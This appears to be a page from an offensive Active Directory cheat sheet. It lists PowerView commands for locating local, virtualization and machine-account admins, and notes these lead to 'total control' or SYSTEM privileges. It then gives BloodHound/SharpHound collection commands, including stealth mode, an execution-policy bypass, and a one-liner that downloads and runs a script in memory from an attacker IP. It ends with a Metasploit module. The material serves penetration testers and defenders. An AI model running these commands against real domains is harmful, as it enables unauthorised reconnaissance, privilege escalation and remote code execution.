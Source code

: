 #### PowerView

```powershell
Get-NetGPOGroup
Get-NetGroupMember -GroupName "Local Admin"
```

### Virtual Admins

Virtual Admins usually have full access to the virtualization platform identifying and owning these accounts can often give total control over to an attacker.

#### PowerView

```powershell
Get-NetGroup "*Hyper*" | Get-NetGroupMember
Get-NetGroup "*VMWare*" | Get-NetGroupMember
```

### Systems with Admin Rights

Finding computer accounts with a `$` sign at the end of the hostname in an admin group we can then compromise the system and obtain SYSTEM privileges. The SYSTEM account on the compromised computer would then have AD admin privileges.

#### PowerView

```powershell
Get-NetGroup "*admins*" | Get-NetGroupMember -Recurse |?{$_.MemberName -Like '*$'}
```

## Tools

## Bloodhound

### Ingestors

```bash
# Standard local execution
./SharpHound.exe --CollectionMethods All,GPOLocalGroup
Invoke-BloodHound -CollectionMethod All,GPOLocalGroup
Invoke-BloodHound -CollectionMethod All -CompressData -RemoveCSV
Invoke-BloodHound -CollectionMethod LoggedOn

# Specify different domain and run in stealth mode and collect only RDP data
Invoke-BloodHound --d <Domain> --Stealth --CollectionMethod RDP

# Run in context of different user
runas.exe /netonly /user:domain\user 'powershell.exe -nop -exec bypass'

# Download and execute in memory
powershell.exe -exec Bypass -C "IEX(New-Object Net.Webclient).DownloadString('http://<IP>:/SharpHound.ps1');Invoke-BloodHound"

# Metasploit
use post/windows/gather/bloodhound     
```
